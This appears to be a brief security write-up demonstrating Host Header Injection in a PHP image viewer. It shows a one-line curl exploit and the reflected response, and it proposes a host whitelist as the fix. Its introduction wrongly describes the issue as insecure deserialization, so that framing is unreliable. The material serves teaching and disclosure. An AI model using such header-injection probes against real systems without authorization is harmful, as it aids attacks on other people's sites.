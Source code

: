 ### Description

Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks,including replay attacks, injection attacks, and privilege escalation attacks.

refers : 
* https://portswigger.net/kb/issues/00200200_http-response-header-injection 
* https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization

### Issue 

It is possible to Host Header Injection on server and it will reflect in web page.

### Exploit 


```console
curl -i http://0 --header "host:example.com"
```

Get Response : 

```html
HTTP/1.1 200 OK
Host: example.com
Date: Fri, 20 Dec 2019 22:35:47 +0530
Connection: close
X-Powered-By: PHP/7.2.9-1
Content-type: text/html; charset=UTF-8

<!DOCTYPE html>
<body>
<center>
<fieldset>
<legend>IMG viewer</legend>
<img width="500" src="http://example.com/img.png" >
</fieldset>
</center>
</body>
</html>	
```
### Fix 

Server reject anything that doesn't match with the white listed host 

---

- Other resources :

  Video about php deserialization : https://www.youtube.com/watch?v=HaW15aMzBUM
